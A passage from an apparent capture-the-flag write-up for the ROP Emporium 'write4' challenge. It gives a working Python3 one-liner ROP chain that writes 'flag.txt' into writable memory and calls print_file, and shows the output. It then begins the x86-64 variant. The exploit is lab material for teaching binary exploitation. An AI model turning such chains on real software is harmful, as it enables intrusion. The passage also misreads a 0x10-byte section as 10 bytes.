#### Python3 One-Line Exploit
Python3 works a bit differently, compared to Python2, when printing byte strings. It tends to break them when you are trying to do a binary exploitation challenge. To get around this, I used the `sys.stdout.buffer.write()` function from the `sys` module.

`python3 -c 'import sys; print_file = b"\xd0\x83\x04\x08"; pop_gadget = b"\xaa\x85\x04\x08"; mov_gadget = b"\x43\x85\x04\x08"; sys.stdout.buffer.write(b"A"*44 + pop_gadget + b"\x18\xa0\x04\x08" + b"flag" + mov_gadget + pop_gadget + b"\x1c\xa0\x04\x08" + b".txt" + mov_gadget + print_file + b"B"*4 + b"\x18\xa0\x04\x08")'`

Running this command and piping the output into the target binary, I got the flag:

```
$ python3 -c 'import sys; print_file = b"\xd0\x83\x04\x08"; pop_gadget = b"\xaa\x85\x04\x08"; mov_gadget = b"\x43\x85\x04\x08"; sys.stdout.buffer.write(b"A"*44 + pop_gadget + b"\x18\xa0\x04\x08" + b"flag" + mov_gadget + pop_gadget + b"\x1c\xa0\x04\x08" + b".txt" + mov_gadget + print_file + b"B"*4 + b"\x18\xa0\x04\x08")' | ./write432

write4 by ROP Emporium
x86

Go ahead and give me the input already!

> Thank you!
ROPE{a_placeholder_32byte_flag!}
```

## x86-64 (64-bit) Binary Exploitation
The `x86-64` bianry had the same protections as the `x86` binary, so I skipped that step.

### Step 1: Disassembling the Binary
When disassembling the binary, the functions in place were the exact same. The only thing that differed were the memory addresses. Apart from the `.data` section. This time, the `.data` section has 10 bytes of writable memory.

```
[Nr] Name   Type      Address           Offset    Size              EntSize           Flags
[---SNIPPED---]
[23] .data  PROGBITS  0000000000601028  00001028  0000000000000010  0000000000000000  WA
[---SNIPPED---]
```

### Step 2: Finding the Offset
Again, for finding the offset, I used `GDB-GEF`, `pattern create` and `pattern offset`.
